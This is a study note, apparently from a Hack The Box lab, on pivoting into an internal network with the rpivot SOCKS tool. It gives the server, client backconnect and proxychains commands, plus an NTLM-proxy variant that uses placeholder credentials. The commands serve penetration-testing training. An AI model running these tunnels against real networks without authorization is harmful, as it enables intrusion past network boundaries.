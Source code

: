 ```yaml
---
title: Web Server - Rpivot
draft: false
tags:
  - rpivot
---
```

**Rpivot** - SOCKS proxy tool written in Python for SOCKS tunneling. 

It binds a machine inside a corporate network to an external server and exposes the client local port on the server side. 

Scenario:

Attacker(10.10.15.5) -> Ubuntu(10.129.15.50,172.16.5.129) -> Webserver(172.16.5.135)

## Installation

```shell-session
jadu101@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

## Rpivot - Server

On Attacker machine, rune the following command to start rpivot SOCKS proxy server:

```shell-session
jadu101@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Command above will allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

## Rpivot - Client

Now that we have Rpivot server listening on port 9999, let's prepare Rpivot client.

We first have to transfer rpivot to the target:

```shell-session
jadu101@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

After transferring, run the client:

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

Above command runs the client and connects to attacker's port 9999.

## Proxychains

Now we have to configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attacker host. 


After configuring correctly, we can access the web server which is two network hops away:

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Sometimes, organization have HTTP-Proxy with NTLM Authentication configured with the Domain Controller. If this is the case, we can provide NTLM authentication option as such:

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```